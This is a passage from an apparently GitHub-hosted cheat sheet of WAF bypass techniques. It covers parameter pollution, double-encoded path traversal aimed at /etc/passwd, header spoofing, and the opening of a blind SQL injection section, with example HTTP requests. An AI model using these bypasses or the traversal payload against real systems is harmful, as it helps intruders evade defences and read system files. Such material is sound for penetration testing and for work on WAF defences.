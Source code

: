 ## 7. Parameter Pollution

**How to do it:**  
Send multiple parameters with the same name in a single request to confuse the WAF or web application.

**Blocked original request:**
```bash
GET /search?q=malicious_query
```

**Updated with parameter pollution:**
```bash
GET /search?q=benign_query&q=malicious_query
```

## 8. Path Traversal with Double Encoding

**How to do it:**  
Use double encoding to bypass WAF rules that only check for single-encoded sequences.

**Blocked original request:**
```bash
GET /../../etc/passwd
```

**Updated with double encoding:**
```bash
GET /%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

## 9. Customizing User-Agent or Referrer Headers

**How to do it:**  
Modify the User-Agent or Referrer header to bypass WAF rules that may apply different rules based on these headers.

**Blocked original request:**
```bash
GET /admin HTTP/1.1
User-Agent: NormalBrowser
```

**Updated with a custom User-Agent:**
```bash
GET /admin HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
```

## 10. Time-based SQL Injection (Blind SQL Injection)

**How to do it:**  
Use time delays in SQL injection to infer information from the database without directly retrieving data.
